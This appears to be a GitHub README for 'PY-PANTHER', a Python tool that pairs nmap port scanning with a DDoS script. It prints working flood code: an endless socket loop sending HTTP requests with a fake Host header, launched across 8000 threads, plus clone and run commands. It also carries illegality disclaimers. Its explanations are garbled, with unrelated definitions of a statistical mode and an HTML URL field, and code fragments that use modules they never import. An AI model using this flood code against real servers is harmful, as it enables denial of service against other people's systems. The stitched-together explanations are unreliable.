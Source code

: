 PY-PANTHER
==========

 Performing a DDOS attack onto any server that is not yours or you don’t have permission to attack is highly illegal..
 
 ---
 INTRODUCTION
----------------
 we are going to write a penetration-testing script, namely a DDOS script, in Python. This program will allow us to flood a server with so many reqeusts that, after a while, it won’t be able to respond anymore and it will go down.

But let me give you a big warning here! Performing a DDOS attack onto any server that is not yours or you don’t have permission to attack is highly illegal. I do not recommend the attacks on any servers other than your own and I am not responsible for what you are going to do with this script. This post is purely educational and shall help you to understand networking and programming with Python. So don’t do stupid things!

WHAT IS DDOS?

DDOS stands for Distributed Denial of Service and it is an attack where we block the ressources of a server by flooding it with requests. Usually this kind of attack is never performed alone but with the help of so-called botnets.
![PY-PANTHER](https://www.neuralnine.com/wp-content/uploads/2019/09/botnet2-1024x702.png)

In a botnet, one hacker infects many computers and servers of ordinary people, in order to use them as zombies. He uses them for a collective attack onto a server. Instead of one DDOS script, he can now run thousands of them. Sooner or later the server will be overwhelmed with the amount of requests so that it is not even able to respond to an ordinary user. For smaller and weaker servers, sometimes one attacker is enough to get it down. However, usually such an attack can be counteracted by blocking the IP-addresses of the attackers.

WHAT IS NMAP?
Nmap, short for Network Mapper, is a free, open-source tool for vulnerability scanning and network discovery. Network administrators use Nmap to identify what devices are running on their systems, discovering hosts that are available and the services they offer, finding open ports and detecting security risks.


Implementing The DDOS Script

The implentation of a DDOS script in Python is quite simple. We only need to send requests to a host on a specific port over and over again. This can be done with sockets. To speed the process up and make it more effective, we will use multi-threading as well. So, the following libraries will be needed for this tutorial:

```
import socket
import threading
```
then write the executable code

```
def restart_program() :
    python = sys.executable
    os.execl(python, python, *sys.argv)
    os.system('clear')
```
We all know, what import nmap is for, to import the nmap module to our python script.
Then we initialise the Nmap PortScanner to scan the ports on our local network.
```
scanner = nmap.PortScanner()
```
The type of scan we use in this attacks are:
```
mode = input("""\nEnter the type of scan!!!
                  [1] Domain LookUp
                  [2] Whole Network Scan
                  [3] Simple Network scan
                  [4] Aggressive Scan 
                  [5] CVE Scan
                  [00] Back\nEnter your option : """)
        print("\nYou have selected option: ", mode)
```        

The mode of a set of data values is the value that appears most often. It is the value at which the data is most likely to be sampled.
```
if mode == '1' :
```
The <input type="url"> defines a field for entering a URL.The input value is automatically validated before the form can be submitted.
```
 url = input("Enter the Domain Name : ")
 ```
 
 the if statements used for the conditional execution
 ```
  a = platform.system()
            if a == 'Windows' :
                print(os.system('ipconfig'))
            elif a == 'Linux' :
                print(os.system('ifconfig'))
            elif a == 'Darwin' :
                print(os.system('ifconfig'))
```
Enumerating(counting and listing one by one) all the open ports on You can also provide the IP address of any remote server as well, to scan
```
lport = scanner[ip][proto].keys()
```
As I already mentioned, DDOS is illegal. So be careful witht the target that you choose here. You can also choose your home server, your printer or maybe even your own website. If you don’t know your IP-address, you can use your command line and ping the domain to get it. As a fake IP-address I chose a random but still valid address. Last but not least, I decided to attack the port 80, which is HTTP. If you want to shut down a specific service, you need to know which port it is operating at.
```
  def attack() :
        while True :
          s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          s.connect((target, port))
          s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
          s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
```
We created a variable attack_num that tracks how many requests have been sent already. With every iteration, we increase this number and print it.
```
  global attack_num
  attack_num += 1
  print(attack_num)
  
  s.close()
```
In this case, we are starting 8000 threads that will execute our function.
Of course, you can play around with the number.When we now execute our script, we will DDOS the target but we won’t see anything.
If you want to see some information, you may print the amounts of requests already sent.
just notice that this will slow down your attack.
```
    for i in range(8000) :
        thread = threading.Thread(target=attack)
        thread.start()
```
How to use it
-------
 First unload the tool.
```
git clone https://github.com/redteamacademy/ADCDGRP/pypanther.git
cd pypanther
python pypanther.py -h
```
If it does not work, try to install all the libraries that are located in the file **requirements.txt**
```
pip install -r requirements.txt
```

Disclaimer
-------
This tool has been published educational purposes. It is intended to teach people how bad guys could track them, monitor them or obtain information from their credentials, we are not responsible for the use or the scope that someone may have through this project.

We are totally convinced that if we teach how vulnerable things really are, we can make the Internet a safer place.

Developer
-------
ADCD STUDENTS COCHIN & CALICUT

Happy Pentesting!
-------
I invite you, if you use this tool helps to share, collaborate. Let's make the Internet a safer place, let's report.

## License

The content of this project itself is licensed under the [Creative Commons Attribution 3.0 license](http://creativecommons.org/licenses/by/3.0/us/deed.en_US), and the underlying source code used to format and display that content is licensed under the [MIT license](http://opensource.org/licenses/mit-license.php).

Copyright, REDTEAM & STUDENTS
